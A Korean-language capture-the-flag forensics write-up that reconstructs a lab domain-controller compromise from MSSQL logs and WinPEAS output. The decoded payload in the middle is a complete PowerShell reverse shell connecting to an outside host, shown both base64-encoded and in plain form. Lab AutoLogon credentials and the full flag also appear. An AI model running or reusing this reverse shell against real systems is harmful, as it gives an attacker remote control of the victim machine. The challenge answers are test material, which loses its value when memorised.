



<br><br>

오 안돼! 우리의 소중한 wolvctf.corp 도메인이 침해당했어! 도메인 컨트롤러에 어떻게 침입한 걸까?<br>
공격자가 도메인 컨트롤러 박스에 접근한 방법, 쉘을 얻은 방법, 도메인 계정을 획득한 방법을 밝혀내달라는 문제이다.<br>
공격자가 자신의 흔적을 제대로 지우지 않아서, 사용자 계정 정보만 제공된 상태이다.<br><br>

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat mssql_service/MSSQL13.SQLEXPRESS/MSSQL/Log/ERRORLOG
��2025-03-18 12:28:55.12 Server      Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
        Mar 18 2018 09:11:49
        Copyright (c) Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)

2025-03-18 12:28:55.13 Server      UTC adjustment: -7:00

...

2025-03-18 12:29:14.04 Server      Software Usage Metrics is disabled.
2025-03-18 13:28:27.74 spid52      Using 'dbghelp.dll' version '4.0.5'
2025-03-18 19:51:14.50 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:14.50 Logon       Login failed for user 'root'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:15.13 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:15.13 Logon       Login failed for user 'test'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:15.74 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:15.74 Logon       Login failed for user 'admin'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:16.32 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:16.32 Logon       Login failed for user 'bruteforcing'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:17.00 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:17.00 Logon       Login failed for user 'this'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:17.85 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:17.85 Logon       Login failed for user 'is'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:18.43 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:18.43 Logon       Login failed for user 'the'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:19.05 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:19.05 Logon       Login failed for user 'first'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:19.69 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:19.69 Logon       Login failed for user 'part'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:20.31 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:20.31 Logon       Login failed for user 'w'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:20.86 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:20.86 Logon       Login failed for user 'c'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:21.68 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:21.68 Logon       Login failed for user 't'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:22.30 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:22.30 Logon       Login failed for user 'f'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:23.12 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:23.12 Logon       Login failed for user '{'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:23.96 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:23.96 Logon       Login failed for user 'd'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:24.56 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:24.56 Logon       Login failed for user '0'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:25.22 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:25.22 Logon       Login failed for user 'n'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:25.82 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:25.82 Logon       Login failed for user 't'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:26.49 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:26.49 Logon       Login failed for user '_'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:27.21 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:27.21 Logon       Login failed for user '3'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:27.93 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:27.93 Logon       Login failed for user 'n'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:28.60 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:28.60 Logon       Login failed for user '4'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:29.11 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:29.11 Logon       Login failed for user 'b'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:29.64 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:29.64 Logon       Login failed for user 'l'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:30.29 Logon       Error: 18456, Severity: 14, State: 5.
2025-03-18 19:51:30.29 Logon       Login failed for user '3'. Reason: Could not find a login matching the name provided. [CLIENT: 192.168.231.1]
2025-03-18 19:51:55.62 spid54      Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
2025-03-18 19:51:55.63 spid54      Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
2025-03-18 19:51:58.29 spid54      Configuration option 'xp_cmdshell' changed from 1 to 0. Run the RECONFIGURE statement to install.
2025-03-18 19:51:58.33 spid54      Configuration option 'show advanced options' changed from 1 to 0. Run the RECONFIGURE statement to install.
2025-03-18 21:14:25.14 spid5s      SQL Server is terminating in response to a 'stop' request from Service Control Manager. This is an informational message only. No user action is required.
2025-03-18 21:14:26.61 spid13s     Service Broker manager has shut down.
2025-03-18 21:14:26.65 spid5s      .NET Framework runtime has been stopped.
2025-03-18 21:14:27.51 spid5s      SQL Server shutdown has been initiated
2025-03-18 21:14:27.53 spid5s      SQL Trace was stopped due to server shutdown. Trace ID = '1'. This is an informational message only; no user action is required.
```

<br><br>
무효 로그인 기록을 살펴보면, 공격자가 자격 증명을 무차별 대입(브루트포스) 방식으로 시도한 것을 확인할 수 있다.<br>
이 내용이 플래그의 첫 번째 부분을 암시한다.<br><br>

**wctf{d0nt*3n4bl3***<br>
일단 여기까지 킵하자<br><br>

WinPEAS에서 프로세스 정보를 확인해 보자.<br>
MSSQL 사용자가 XP_CMDSHELL 명령어를 실행했는지 여부를 확인해볼 것이다.<br>
이 명령어는 시스템 명령을 SQL Server를 통해 실행할 수 있도록 해주기 때문에, 공격자가 쉘을 획득하는 데 사용했을 가능성이 있다.<br><br>

```
P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%c% Processes Information `%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%P%

T%P%P%P%P%P%P%P%P%P%P%c% Interesting Processes -non Microsoft-
Z% Check if any interesting processes for memory dump or if you could overwrite some binary running https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#running-processes
    conhost(7856)[C:\Windows\system32\conhost.exe] -- POwn: MSSQL$SQLEXPRESS
    Command Line: \??\C:\Windows\system32\conhost.exe 0x4
   =================================================================================================

    cmd(1620)[C:\Windows\system32\cmd.exe] -- POwn: MSSQL$SQLEXPRESS
    Command Line: "C:\Windows\system32\cmd.exe" /c powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAOAA3AC4AMQAyADgAIgAsADEANAAzADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAZQBuAGMAbwBkAGUAZABfAGYAbABhAGcAcAB0ADIAIAA9ACAAIgBYADMAaABRAFgAMgBOAHQAWgBIAE4AbwBNAHoARQB4AFgAMwBjAHgAZABHAGgAZgBaAEQATgBtAFkAWABWAHMAZABGADkAagBjAGoATgBrAGMAMQA4AHcAYwBsADgAPQBzACIAOwAkAGYAbABhAGcAcAB0ADIAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAZQBuAGMAbwBkAGUAZABfAGYAbABhAGcAcAB0ADIAKQApADsAVwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAkAGYAbABhAGcAcAB0ADIAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

<br><br>
<br>
이를 해독하기 위해 cyberchef를 사용하였다.<br>
그 결과

```
$client = New-Object System.Net.Sockets.TCPClient("192.168.187.128",1433);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$encoded_flagpt2 = "X3hQX2NtZHNoMzExX3cxdGhfZDNmYXVsdF9jcjNkc18wcl8=s";$flagpt2 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($encoded_flagpt2));Write-Output $flagpt2;$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

<br><br>

라는 값을 획득할 수 있었고, flagpt2 라는 부분을 확인할 수 있었다.<br><br>

<br>
이렇게, 플래그의 2번째 파트는<br>
**_xP_cmdsh311_w1th_d3fault_cr3ds_0r_**<br><br>

```
[1;36m╔══════════╣ [1;32mLooking for AutoLogon credentials[0m
[1;31m    Some AutoLogon credentials were found[0m
    DefaultDomainName             :  WOLVCTF
    DefaultUserName               :  WOLVCTF\Dan
    DefaultPassword               :  DansSuperCoolPassw0rd!!
    AltDefaultUserName            :  loot-in-hex:656e61626c335f347574306c6f67306e5f306b3f3f213f7d // "enabl3_4ut0log0n_0k??!?}"

```

<br><br>

플래그의 3번째 파트는 winPEASOutput.txt 에 있다는 팀원 분의 도움을 받았ek.<br><br>

그렇기에 최종 플래그는,<br>
wctf{d0nt_3n4bl3_xP_cmdsh311_w1th_d3fault_cr3ds_0r_enabl3_4ut0log0n_0k??!?}<br>
이다.
